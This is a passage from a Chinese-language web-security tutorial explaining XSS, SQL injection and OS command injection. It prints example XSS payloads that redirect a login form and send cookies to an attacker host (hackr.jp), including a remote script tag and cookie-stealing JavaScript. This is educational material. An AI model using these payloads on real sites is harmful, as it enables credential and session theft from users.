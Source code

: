 是指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的HTML标签或JavaScript进行的一种攻击。动态创建的HTML部分有可能隐藏着安全漏洞。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击

**跨站脚本攻击有可能造成以下影响：**

1. 利用虚假输入表单骗取用户个人信息
2. 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求
3. 显示伪造的文章和图片

XSS是攻击者利用预先设置的陷阱触发的被动攻击，跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱

下图网站通过地址栏中URI的查询字段指定ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞

![](https://img2024.cnblogs.com/blog/3357226/202401/3357226-20240112181320855-2039319739.png)

创建了下面这段嵌入恶意代码的URL。并隐藏植入事先准备好的欺诈邮件中或Web页面内，诱使用户去点击该URL

```html
http://example.jp/login?ID="><script>var+f=document⇒.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method=⇒"get";</script><span+s="
```

浏览器打开该URI后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入ID和密码之后，就会直接发送到攻击者的网站（也就是hackr.jp），导致个人登录信息被窃取

![](https://img2024.cnblogs.com/blog/3357226/202401/3357226-20240112181331341-1212273725.png)

之后，ID及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露

**对用户Cookie的窃取攻击**

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的Cookie信息

```html
<script src=http://hackr.jp/xss.js></script>
```

该脚本内指定的http://hackr.jp/xss.js文件。即下面这段采用JavaScript编写的代码

```javascript
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

在存在可跨站脚本攻击安全漏洞的Web应用上执行上面这段JavaScript程序，即可访问到该Web应用所处域名下的Cookie信息。然后这些信息会发送至攻击者的Web网站（http://hackr.jp/），记录在他的登录日志中。攻击者就这样窃取到用户的Cookie信息了

![](https://img2024.cnblogs.com/blog/3357226/202401/3357226-20240112181349139-237267759.png)

**SQL注入攻击**

针对Web应用使用的数据库，通过运行非法的SQL而产生的攻击。需要对数据库表内的数据进行检索或添加、删除等操作时，会使用SQL语句连接数据库进行特定的操作。如果在调用SQL语句的方式上存在疏漏，就有可能执行被恶意注入（Injection）非法SQL语句

**SQL注入是攻击者将SQL语句改变成开发者意想不到的形式以达到破坏结构的攻击**

**OS命令注入攻击（OS Command Injection）是指通过Web应用执行非法的操作系统命令达到攻击的目的。只要在能调用Shell函数的地方就有存在被攻击的风险**

可以从Web应用中通过Shell来调用操作系统命令。倘若调用Shell时存在疏漏，就可以执行插入的非法OS命令
